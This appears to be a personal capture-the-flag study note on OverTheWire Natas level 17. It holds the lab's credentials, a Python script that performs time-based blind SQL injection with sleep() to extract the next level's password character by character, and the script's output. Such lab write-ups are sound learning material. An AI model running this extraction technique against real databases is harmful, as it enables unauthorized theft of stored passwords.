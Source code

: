## 17->18
- http://natas17.natas.labs.overthewire.org/
- `natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJUV`
- https://learnhacking.io/overthewire-natas-level-17-walkthrough/
- This one is like 15, except the `echo` statements have been commented out, so we can't "see" anything visually from the FE client. The trick, timing... wow.
- Takeaway: SQL injection can include timing injection to gain information about a system when visual output is unavailable.
- 2025-06-19 Break Day
- 2025-06-20 Break Day
```python
import requests
import string
from requests.auth import HTTPBasicAuth

basicAuth=HTTPBasicAuth('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

u="http://natas17.natas.labs.overthewire.org/index.php?debug"

password="" # start with blank password
count = 1   # substr() length argument starts at 1
PASSWORD_LENGTH = 32  # previous passwords were 32 chars long
VALID_CHARS = string.digits + string.ascii_letters

while count <= PASSWORD_LENGTH + 1: 
    for c in VALID_CHARS: 
        payload = (
            "username=natas18"
            "\" AND "
            "IF(BINARY substring(password,1," + str(count) + ")"
            " = '" + password + c + "', sleep(2), False)"
            " -- "
        )

        response = requests.post(u, data=payload, headers=headers, auth=basicAuth, verify=False) 

        # print(payload, " ------ ", response.elapsed) 
        
        if (response.elapsed.total_seconds() > 2):
            print("Found one more char : %s" % (password+c))
            password += c
            count = count + 1

print("Done!")
```

```bash
➜  natas git:(main) ✗ python natas17.py
Found one more char : 6
Found one more char : 6O
Found one more char : 6OG
Found one more char : 6OG1
Found one more char : 6OG1P
Found one more char : 6OG1Pb
Found one more char : 6OG1PbK
Found one more char : 6OG1PbKd
Found one more char : 6OG1PbKdV
Found one more char : 6OG1PbKdVj
Found one more char : 6OG1PbKdVjy
Found one more char : 6OG1PbKdVjyB
Found one more char : 6OG1PbKdVjyBl
Found one more char : 6OG1PbKdVjyBlp
```